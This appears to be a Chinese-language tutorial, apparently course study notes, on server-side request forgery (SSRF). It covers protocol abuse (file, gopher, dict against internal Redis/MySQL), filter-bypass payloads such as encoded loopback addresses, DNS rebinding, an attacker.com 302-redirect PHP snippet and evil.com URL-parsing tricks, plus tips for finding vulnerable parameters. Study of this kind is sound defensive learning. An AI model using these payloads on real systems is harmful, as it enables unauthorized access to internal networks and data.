






## `SSRF`的基本概念

#### 1.定义：

**伪造服务端发送恶意请求**

---

#### 2.为什么要伪造请求呢:



学校给的这张图片比较抽象

**首先要了解局域网：**

```
局域网 (LAN)： 想象一个公司或学校的内部网络。外面的人（比如图中的 Attacker）进不来，直接访问不到里面的东西，但内部的电脑之间可以自由通信。
```

**图里演示的攻击流程是这样的：**

```
你（Attacker）在外部公网上，你想黑进目标内网的 MySQL 或 Redis 数据库。但它们在“墙”后面，你直接连是绝对连不上的。

但是，目标公司有一台对外开放的 Web 服务器（图中的 Vulnerable SSRF），它是你能访问到的。

恰好这台服务器有漏洞（比如它提供了一个可以输入网址并去获取图片的功能，但没做任何安全过滤）。

你可以“骗”这台服务器，给它发送一个指令：“你去帮我访问一下内网的数据库”。因为这台服务器在内网里，它是有权限访问的。于是它就成了你的跳板。
```

---

#### 3.怎么样的服务器才能发送请求呢:

利用触发`ssrf`危险函数：

1. file_get_contents()、`readfile()`
2. `fsockopen()`
3. curl_exec()

#### 4.如何构造恶意请求

TIPS:妙用各种协议

##### a.file

```url
file://协议读取本地文件 例子:file///flag  file://c://ssrf-lab.php
```

##### b.http

```url
http://协议访问网络资源    例子:http://www.baidu.com http://127.0.0.1:80/flag
```

##### c.gopher

```url
gopher://协议伪造各种服务的请求    例子:mysql,redis fastcgi,fpm等服务

gopher:它的核心特性非常简单粗暴：它能向指定的服务器和端口发送绝对纯净的原始字节流（Raw Data）。 它不会像 HTTP 那样自作主张地加上繁琐的请求头（Headers）。

利用 gopher:// 协议“指哪打哪、发送纯净数据”的特性，攻击者可以把各种复杂软件的通信语言“打包”送进内网，从而精准操纵这些原本躲在防火墙后面的脆弱服务。实战中，大家经常会借助抓包工具（比如 Burp Suite）或者专门的脚本，来生成这些复杂的 Gopher payload。
```

##### d.dict

```url
dict://协议内网服务探测,打未授权的redis   dict://127.0.0.1:{c}
```

##### e.ps

```url
ps:对于file_get_contents来说还可以用php伪协议
```

---

## 绕过WAF

#### 1.特殊的缺省ip地址

```
127.0000000000000.001
127.0.1
127.1
127。0。0。1
0.0.0.0
```

---

#### 2.进制转换

```
0177.0.0.1
0x7F.0.0.1
0x7F000001
2130706433
```

---

#### 3.`dns`重绑定

需要使用到两个网站

```url
https://lock.cmpxchg8b.com/rebinder.html
http://www.ip33.com/dns.html
```


dns重绑定的原理是：

**`DNS` 记录都有一个缓存有效时间。**攻击者会自己控制一个域名，并将其 `DNS` 服务器解析记录的 TTL 设置为极其短暂（比如 `0` 秒）。这意味着目标服务器每次查询该域名，都无法使用本地缓存，必须重新向攻击者的 `DNS` 服务器询问

目标服务器的 `WAF` 进行**第一次 `DNS` 查询**时，攻击者的恶意 `DNS` 故意返回一个合法的公网 `IP`来绕过，当目标服务器准备**真正发起 HTTP 请求**时，因为之前的 `DNS` 记录（TTL=0）已经瞬间过期，系统被迫触发**第二次 `DNS` 查询**。此时，恶意 `DNS` 服务器立马“变脸”，将解析结果替换成目标内网 `IP`（例如 `127.0.0.1`），然后打入内网。


**原理图：**




**使用说明：**



---

#### 4.`dns`欺骗

```url
safe.taobao.com  
114.taobao.com
wifi.aliyun.com
imis.qq.com
localhost.sec.qq.com
ecd.tencent.com
```

---

#### 5.302跳转

**利用流程：**

- 在攻击者可控的公网服务器上创建 *`redirect.php`*：

```php
<?php
header("Location: http://127.0.0.1/flag.php");
?>
```

或者是：

```php
<?php
header("Location: http://127.0.0.1/flag");
?>
```

- 构造请求指向该外部地址：

```url
?url=http://attacker.com/redirect.php
```

1. 目标服务器请求外部 URL，通过初始正则检测（无内网特征）。
2. 外部服务器返回 *302 Location: http://127.0.0.1/flag.php*。
3. 因为 *`CURLOPT_FOLLOWLOCATION = true`*，`cURL` 自动跟随跳转访问内网资源。
4. 内网响应内容（如 Flag）被返回给攻击者。

---

#### 6.@绕过

```url
echo file_get_contens(“http://www.baidu.com/”.”你想要访问的资源路径””)
```

比如你想要访问bilibili

可以这样写

```url
https://baidu.com@bilibili.com
```

---

#### 7.#和?绕过






以上两种情况下，浏览器都成功打开了B站首页，揭示了一个URL的底层规则：

- **`#`（Fragment/片段）**：`#` 及其后面的内容**根本不会发送给服务器**。它只在浏览器本地生效（通常用于页面锚点定位）。
- **`?`（Query String/查询参数）**：`?` 后面的内容会作为参数发送给服务器，但在网络请求层面，它**不会改变实际请求的目标主机（Host）**。


假如存在：

```php
if(preg(“/^http://gzhu.*$edu”,$host)==True)
```

攻击者可以构造如下恶意的URL：

- `http://evil.com#gzhu.edu` （利用`#`）
- `http://evil.com?gzhu.edu` （利用`?`）

---

## `SSRF`挖掘思路

主要从两个维度上进行挖掘

- **① 从WEB功能上寻找**（常见业务场景）：
  1. **分享**：通过URL地址分享网页内容。
  2. **转码服务**：把原地址的网页内容调优以适合手机屏幕浏览。
  3. **在线翻译**：翻译URL对应文本的内容（如百度、有道等）。
  4. **图片加载与下载**：通过URL地址加载或下载图片。
  5. **图片、文章收藏功能**。
  6. **未公开的API实现**以及其他调用URL的功能。
- **② 从URL关键字中寻找**（特征词模糊测试）：
  常见的关键字包括：`share`、`wap`、`url`、`link`、`src`、`source`、`target`、`u`、`3g`、`display`、`sourceURI`、`imageURL`、`domain`。




